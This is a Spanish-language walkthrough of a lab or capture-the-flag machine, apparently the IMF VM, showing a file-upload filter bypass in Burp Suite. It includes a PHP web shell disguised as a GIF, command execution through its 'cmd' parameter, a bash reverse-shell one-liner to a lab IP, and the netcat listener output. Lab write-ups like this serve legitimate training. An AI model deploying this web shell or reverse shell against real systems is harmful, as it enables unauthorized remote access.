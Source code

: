 Cargamos el archivo php, y desde Burpsuite modificamos `Content-Type`, extensión a `.gif` (NO JPG como en la imagen) y añadimos los 'Magic Numbers' propios de un archivo Gif. Vemos que ahora muestra que el archivo se cargo 'successfully'

![Captura](./Imágenes/burp_2.png)

En Burpsuite vemos en el apartado de Response -> Petty el código fuente de la carga exitosa. Dejando ver una especie de código de registro `371cc5dcdf1a`

![Captura](./Imágenes/burp_3.png)

```url
http://192.168.1.67/imfadministrator/uploads/395a1af2f2c1.gif
```

En esta ruta se almacena nuestro archivo, el cual vemos que no interpreta el código php. por lo que podemos hacer uso del parámetro `cmd`

**Nota:** En Burpsuite lo que me funciono fue ponerlo así

```php
Content-Disposition: form-data; name="file"; filename="cmd.gif"

Content-Type: image/jpg



GIF8;

<?php
  $c=$_GET['cmd'];
  echo `$c`;
?>
```

```url
http://192.168.1.67/imfadministrator/uploads/395a1af2f2c1.gif?cmd=id
```

Y vemos que obtenemos el comando id desde la web. Ahora podemos usar un oneliner para enviarnos una Reverse Shell a nuestra sistema

```url
http://192.168.1.67/imfadministrator/uploads/0bace17f309f.gif?cmd=bash -c "bash -i >%26/dev/tcp/192.168.1.66/443 0>%261" 
```

```bash
nc -lvnp 443
```

Resultado:

```bash
listening on [any] 443 ...
connect to [192.168.1.66] from (UNKNOWN) [192.168.1.67] 58828
bash: cannot set terminal process group (1331): Inappropriate ioctl for device
bash: no job control in this shell
www-data@imf:/var/www/html/imfadministrator/uploads$ 
```
